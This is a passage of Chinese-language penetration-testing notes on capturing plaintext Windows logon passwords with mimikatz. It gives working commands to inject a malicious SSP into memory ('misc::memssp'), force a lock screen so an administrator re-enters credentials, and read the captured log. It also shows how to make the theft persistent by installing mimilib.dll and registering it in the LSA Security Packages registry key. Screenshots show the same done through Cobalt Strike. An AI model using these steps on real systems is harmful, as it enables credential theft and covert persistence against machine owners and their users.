

**通过cs模拟**

未开启时抓取不到明文密码


修改注册表并锁屏


重新登录后使用mimikatz成功抓取明文密码


### 内存注入SSP获取系统密码
>Mimikatz中，有写好的恶意的SSP 他可以提供本地认证时候对明文账号密码进行记录，我们需要将SSP注入到系统内存中，就可以获取本地的明文账号密码，因为是注入内存所以重启后就失效了，这个攻击也叫SSP注入

**第一步：使用mimikatz将SSP注入内存**
```
misc::memssp
```

**第二步：进行锁屏等操作**
```
rundll32.exe user32.dll,LockWorkStation
```
等待管理员输入正确的账号密码

**第三步：在C:\Windows\System32\mimilsa.log，查看存放的账号密码**

**cs模拟**


内存注入ssp


锁屏

等待重新登录后找到C:\Windows\System32\mimilsa.log文件查看





### 注册表添加SSP获取系统密码
>SSP注入只要计算机重启即无法使用，想要使得永久生效，需要将SSP添加到注册表中，只要系统重启就会加载SSP。


**步骤**

   - 将mimikatz压缩包中的mimilib.dll，这个文件就是SSP，将该文件复制到C:\Windows\System32目录中
     
   
   - 修改注册表
      ```
      reg add HKLM\SYSTEM\CurrentControlSet\Control\Lsa /v "Security Packages" /t REG_MULTI_SZ /d mimilib.dll /f
      ```
      

   - 密码会存储在C:\Windows\System32\kiwissp.log文件中（**注意需要重启后注册表才会生效**）
      


